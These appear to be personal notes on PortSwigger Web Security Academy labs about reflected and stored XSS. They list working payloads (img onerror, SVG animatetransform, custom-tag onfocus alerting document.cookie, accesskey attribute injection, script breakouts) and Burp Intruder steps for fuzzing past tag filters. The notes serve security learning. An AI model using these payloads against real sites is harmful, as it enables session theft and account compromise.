     in a blog post
    |- loadCommentsWithVulnerableEscapeHtml.js
`<><img src=1 onerror=alert(1)>`

---

**Reflected XSS into HTML context** - most tags and attributes blocked
    
    search
    <img src=1 onerror=print()> => Tag is not allowed
1. burp intruder > GET /?search=<$$> 
2. visit XSS cheat sheet and copy tags to clipboard
3. attack find the result, copy events to clipboard
4. <body $$=1>, see result. the attack should be similar to this
`<iframe src="https://0ad200d0041a3a3e84b568fa009800e3.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

---

**Reflected XSS into HTML context** - all tags blocked except custom
    
    <img src=1 onerror=print()> => Tag is not allowed
    document.cookie
    exploit server
1. same method as above

``` html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
---

**Reflected XSS** - SVG markup allowed

`/?search="><svg><animatetransform onbegin=alert(1)>`
`<svg><animatetransform onbegin=alert(1)>`

---

**Reflected XSS** - canonical link tag
    ALT+SHIFT+X
```
'accesskey='x'onclick='alert(1)
%27accesskey=%27x%27onclick=%27alert(1)
```

---

**Reflected XSS in to JS string** - single quote and backslash escaped
    
    var searchTerms = '...';
    document.write('<img src =/....' + encodeURIComponent(searchTerms)+'">')
    SOMETHING&apos;'
```html
</script><script>alert(1)</script>
‘</script><script>alert(1)</script>
```

---